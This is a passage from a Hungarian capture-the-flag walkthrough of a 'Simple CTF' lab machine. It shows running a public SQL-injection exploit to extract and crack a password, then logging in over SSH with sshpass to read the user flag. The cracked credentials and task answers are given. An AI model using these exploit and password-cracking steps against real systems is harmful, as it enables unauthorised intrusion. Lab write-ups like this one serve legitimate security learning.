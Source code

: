 Aztán kimásoljuk egy tetszőleges könyvtárba:

~~~bash
searchsploit -m php/webapps/46635.py ~/thm/machines/simple_ctf/
~~~

Ezután futtassuk le a python exploitot:

~~~bash
python 46635.py -u http://$IP/simple/ --crack -w /usr/share/dirb/wordlists/others/best110.txt
~~~

Kimenet:

~~~report
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
~~~

># Válasz: secret

<hr>

<h1 style="color: #a9db92 ;"><b>6 - Where can you login with the details obtained?</b></h1>
>6 - Hol lehet bejelentkezni a megszerzett adatokkal?



Ezeket a hitelesítő adatokat használhatjuk az `ssh` (2222-es porton futó) bejelentkezéshez:

># Válasz: SSH

<hr>

<h1 style="color: #a9db92 ;"><b>7 - What’s the user flag?</b></h1>
>7 - Mi a user flag?

Jelen esetben az `sshpass` nevű programot fogom segítségül hívni a sima `ssh`-hez. Ha neked nincs fent az `sshpass` akkor se csüggedj, `apt`-on fent van, tehát:

~~~bash
sudo apt-get update -y; sudo apt-get install sshpass -y
~~~

Ha ezzel megvagyunk használhatnánk is, ennek a parancsnak a kimenetében megkapjuk a `user.txt` eredményét:

~~~bash
sshpass -p secret ssh mitch@$IP -p 2222 cat user.txt
~~~

<hr>

<h1 style="color: #a9db92 ;"><b>8 - Is there any other user in the home directory? What’s its name?</b></h1>
>8 - Van-e más felhasználó a `home` könyvtárban? Mi a neve?

Találunk egy másik felhasználót a `/home` könyvtárban:

~~~bash
ls -l /home
~~~
